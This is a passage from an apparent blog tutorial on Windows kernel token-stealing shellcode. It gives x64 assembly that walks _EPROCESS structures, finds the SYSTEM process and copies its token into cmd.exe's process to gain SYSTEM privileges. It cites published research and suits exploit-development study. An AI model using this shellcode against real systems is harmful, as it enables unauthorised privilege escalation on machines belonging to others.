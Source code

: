 Once we found the right `_EPROCESS` structure, we need to save the address that point at the `_EX_FAST_REF Token` (offset `0x360`), which is the token that need to be replaced.

```plaintext
mov rcx, rax    ; Copy the _EPROCESS address to RCX
add rcx, 0x360  ; Pointing RCX at Token
```
#### Step 6

We need to do the same thing with a **privileged process**. Most of the time we use the `system` process (PID of `4`).

```plaintext
loop2:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4  ; Compare the PID (4) with the UniqueProcessId
jne loop2
```

#### Step 7

After we find the `_EPROCESS` structure of the privileged process, it's time to replace the token of the unprivileged process (Parent PID **cmd.exe**) with the token of the privileged process **system**.

```plaintext
mov rdx, rax            ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360          ; Pointing RDX at the Token of system
mov rdx, qword [rdx]    ; Copying the Token
mov qword [rcx], rdx    ; Replace the cmd.exe Token with the system Token
ret
```
### Exploit

<img src="/img/windows-kernel-shellcode-tokenstealer/SYSTEM.PNG" alt="NT AUTHORITY/SYSTEM" class="img-fluid img-thumbnail"/>

### Final Code

<script src="https://gist.github.com/amriunix/6c3c6ec6dd24c5eb17bc27875c6402cd.js"></script>

#### Sources:
* [Improsec](https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-1)
* [Cesar Cerrudo in 2012](https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH_US_12_Cerrudo_Windows_Kernel_WP.pdf)
* [InfoSecInstitute](https://resources.infosecinstitute.com/kernel-exploitation-part-2/)
</br>


